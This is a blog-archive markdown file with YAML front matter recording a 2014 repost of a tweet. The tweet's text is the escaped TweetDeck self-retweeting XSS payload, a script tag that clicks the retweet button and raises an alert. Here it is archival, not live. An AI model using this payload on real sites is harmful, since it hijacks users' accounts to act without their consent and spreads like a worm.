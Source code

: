```yaml
---
date: 2014-06-11 18:12:46+00:00
dontinlinephotos: true
repost_source:
  name: Dani___Alves
  type: twitter
  url: https://twitter.com/Dani___Alves/statuses/476765438991679488/
source: twitter
syndicated:
- type: twitter
  url: https://twitter.com/roytang/statuses/476789149995761664/
title: ''
---
```


&lt;script class="xss"&gt;$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')&lt;/script&gt;♥